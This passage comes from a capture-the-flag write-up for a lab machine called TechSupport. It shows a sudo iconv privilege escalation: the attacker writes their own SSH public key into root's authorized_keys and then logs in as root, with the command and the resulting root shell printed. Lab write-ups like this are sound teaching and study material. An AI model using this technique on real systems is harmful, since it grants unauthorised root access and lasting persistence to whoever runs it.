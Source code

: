 <p align="center"><img src="files/iconv_GTFOBins.png"></p>

**Note:** We can use this permission to read the flag in `/root` now, but where is the fun in that when we can gain root access. : )

### Exploit

Let me explain how to use this permission. We can easily add our public SSH key to `/root/.ssh/authorized_key` and then use our private key to connect to the machine as root.

**If you have an SSH key, skip to the next paragraph** and if you don't, you can create one using `ssh-keygen`. Just use a password that you can remember later. After you're done, the file with `.pub` extention is your public key and the other one is your private key.

Let's add our public key then. We can do it, by running the following command (Add your public key where it says it):

~~~bash
scamsite@TechSupport:~$ echo "[PUT YOUR PUBLIC KEY HERE]" | sudo iconv -f 8859_1 -t 8859_1 -o /root/.ssh/authorized_keys
~~~

Now let's use our private key to connect to the machine as root:

~~~
└─$ ssh -i ~/.ssh/id_rsa root@$IP   

[...]

root@TechSupport:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

B00M! We are root! : )

## Flag
